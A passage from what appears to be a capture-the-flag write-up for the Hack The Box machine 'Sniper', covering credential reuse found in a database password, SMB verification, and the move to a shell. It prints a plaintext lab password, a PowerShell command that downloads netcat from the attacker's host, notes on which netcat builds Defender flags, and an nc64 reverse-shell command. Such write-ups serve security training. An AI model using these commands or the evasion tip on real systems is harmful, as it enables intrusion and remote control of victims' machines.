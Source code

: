 At first I didn't mind it too much and started enumerating MySQL by creating PHP pages to query it for all its databases and tables but with no great results (the only thing I found was an MD5 hash for a "superuser" user which I could not crack).


After a little break and some thinking I forgot to check for one of the weaknesses I so often underestimate: password reuse. I found out the database password is basically Chris' account password, I verified this with smbclient by being able to list the shares with his account:

```aaa
baud@kali:~/HTB/sniper$ smbclient -U chris -L \\\\10.10.10.151
Enter WORKGROUP\chris's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

As established at the beginning, anonymous users are not allowed to list shares on the box, meaning the credentials are correct:

```aaa
User: chris
Pass: 36mEAhz/B8xQ~2VM
```

Still, Chris can't access the C$ share anyway:

```aaa
baud@kali:~/HTB/sniper$ smbclient -U chris \\\\10.10.10.151\\C$
Enter WORKGROUP\chris's password: 
tree connect failed: NT_STATUS_ACCESS_DENIED
```

With a set of working credentials and nowhere to use them I was forced to drop files on the box. My first try was with the nc-family of binaries, using this command:

```powershell
powershell -command iwr http://10.10.14.144/ncat.exe -outfile \"c:\users\all users\data\ncat.exe\""
```

But Defender is always ready to stop the fun by flagging the binaries. Here's what I tried downloading and what worked:

```aaa
nc --> flagged
ncat --> flagged
nc64 --> works!
```

After downloading nc64 on the box I can call it from the web shell to contact my own host with a reverse shell:

```aaa
"c:\users\all users\data\nc64.exe" -e cmd.exe 10.10.14.144 9999
```
